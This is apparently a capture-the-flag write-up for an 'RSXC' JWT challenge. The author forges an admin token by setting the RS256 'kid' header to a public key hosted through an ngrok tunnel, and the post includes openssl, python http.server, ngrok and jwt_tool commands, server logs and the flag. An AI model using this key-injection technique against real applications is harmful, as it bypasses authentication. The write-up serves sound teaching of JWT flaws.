



# Day 15 - JWT 2

I can admit I might not have figured out everything, but I think everything should be figured out now! I have however implemented a new header I found in RFC 7515.

## Write-Up
As yesterday we have a JWT challenge to crack. We need to be logged in as *admin* but are only given login credentials for *test* user. So we need to change the JWT token somehow.

The challenge text has a reference to *RFC 7515* and after loging in to the site we are also given a hint that this is about *KID* being used.

Let's look at the token using http://jwt.io



Looking at the RFC we can read about *KID*.
RFC: https://datatracker.ietf.org/doc/html/rfc7515#section-4.1.4



So the *kid* parameter is used to indicate which key that has been used to secure the token. We see that the *alg* is set to *RS256* which we know from yesterday that uses a key pair for signing and verification.

My guess is that we should try creating our own key-pair, create a new JWT token signed with our private key, publish the public key on the WWW so it could be used to verify the new token.

It sounds easy enough. On my first try I signed up for a free web hosting service so I would have a place to put my key. Then I tried serveral long manual ways for generating key-pairs, crafting the JWT token and putting my key online. NOTHING worked! I banged my head to the wall and tried other ways to generate more new keys, more new tokens... NO Luck... I reused the thought from yesterday, alg confusion, even not believing it to work. The *none algorithm* attack was tried and other tampering methods found here and there... STILL NO LUCK.... In my **frustration** I even tried the initial thought, but publicly hosting the *private* key... KNOWING that this is a **BIG No-No!**. I got nowhere.. deleted every key-pair created (locally and online), every token created, and every script sniplets I had begun...

TIME TO RETHINK THIS!!!!

Knowing that someone in the community had solved this chellenge, I reached out for a little nudge. I wanted to verify if my thoughts was on target or if I was way-off. Thanks to "klarz" for replying to my "call for help". Also thanks for giving help in an informative way... I was looking at "klarz" reply: "What have you tried?"
So I explained what I had done and what my methods had been. I got verification that my initial though should work. "klarz" also gave me links to a resource "for quick and easy testing", https://ngrok.com.

My initial though should be the correct way to solve this challenge, meaning the free web-hosting service must "#¤% this up. Looking at *ngrok*, which in short "exposes local servers behind NATs and firewalls to the public internet over secure tunnels". After a little reading on how to use this, the conecpt is easy.

- Run a local server
- Create a tunnel to ngrok which should expose my local server. Forwarding traffic from an ngrok URL to my localhost.

First let's create a new key-pair for signing and verification.

Ref: https://developers.yubico.com/PIV/Guides/Generating_keys_using_OpenSSL.html

```shell
$ openssl genrsa -out jwtThisShouldWork.key 2048

$ openssl rsa -in jwtThisShouldWork.key --outform PEM -pubout -out jwtThisShouldWork.key.pub
```

Now let's run a local http server using python and start *ngrok* to get a URL we can use as *kid* value in our JWT token header.
```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

$ ./ngrok http 8000

[snipped output]
Forwarding     http://7c21-85-165-89-169.ngrok.io -> http://localhost:8000            
Forwarding     https://7c21-85-165-89-169.ngrok.io -> http://localhost:8000
```

Then we need to craft our new JWT token. Let's use *jwt_tool*. Options *-S rs256 -pr >local private key<* for the signing of the token, *-T* for tampering. 
```shell
$ jwt_tool.py -S rs256 -pr ./jwtThisShouldWork.key -T "JWT TOKEN VALUE"

Changing Kid:
[3] kid = "http://7c21-85-165-89-169.ngrok.io/jwtThisShouldWork.key.pub"

Changing username:
[1] username = "admin"
```

We should then get a new JWT Token, signed with our key, which we can use in our cookie. When reloading the page *ngrok* and our local http server revieves connection.

```
[ngrok]

HTTP Requests
-------------                                                                                      
GET /jwtThisShouldWork.key.pub 200 OK
GET /jwtThisShouldWork.key.pub 200 OK

[http.server]
127.0.0.1 - - [23/Dec/2021 12:43:56] "GET /jwtThisShouldWork.key.pub HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2021 12:43:56] "GET /jwtThisShouldWork.key.pub HTTP/1.1" 200 -
```

And the webpage displays our flag




## The Flag
RSXC{Don't_let_others_decide_where_your_keys_are_located}